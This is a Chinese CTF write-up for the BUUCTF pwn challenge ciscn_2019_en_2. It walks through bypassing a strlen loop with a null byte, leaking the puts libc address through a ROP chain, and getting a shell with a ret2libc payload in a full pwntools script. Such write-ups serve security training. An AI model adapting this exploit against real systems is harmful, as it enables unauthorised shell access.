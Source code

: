 ### Strlen 绕过泄露 libc

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67a71c17d0e0a243d4fd093a.png)

反编译文件，首先排除 3，因为它直接退出了

![](https://pic1.imgdb.cn/item/67a71d13d0e0a243d4fd0968.png)

如果不是 2 则调用 begin，去看看 begin 发现给了三个选择

![](https://pic1.imgdb.cn/item/67a71d41d0e0a243d4fd097a.png)

下面还有个不是 1 的判断，多调用了一个 encrypt，看来要输入 2

进去直接给出了 gets，左门 plt 表中有 puts，没有后门函数及字符串，看来要先泄露 libs

但是 strlen 函数在一个死循环里面，它会修改我们数据，得 \x00 截断绕过

然后通过 puts 打印出 puts 实际在 libc 中的地址

![](https://pic1.imgdb.cn/item/67a71d90d0e0a243d4fd098d.png)

查看缓冲区大小

![](https://pic1.imgdb.cn/item/67a71de2d0e0a243d4fd09ba.png)

先获取 pop rdi 及 ret 地址

![](https://pic1.imgdb.cn/item/67a71c07d0e0a243d4fd0938.png)

构造 payload

```python
from pwn import *

p = remote('node5.buuoj.cn',26156)

elf = ELF('./ciscn_2019_en_2')

pop_rdi = 0x400c83
ret = 0x4006b9
code = 0x4009a0

puts_got=elf.got['puts']
puts_plt=elf.plt['puts']

p.recvuntil('choice!\n')
p.sendline(str(1))
p.recvuntil('encrypted\n')

payload = b'\x00'+ b'a' * 0x57 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(code)
p.sendline(payload)
p.recvuntil('Ciphertext\n\n')

puts_add = u64(p.recv(6).ljust(8,b'\x00'))

system = puts_add - 0x31580
binsh = puts_add + 0x1334da

p.recvuntil('encrypted\n')

payload = b'\x00' + b'a' * 0x57 + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system)

p.sendline(payload)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67a71e9bd0e0a243d4fd0a03.png)
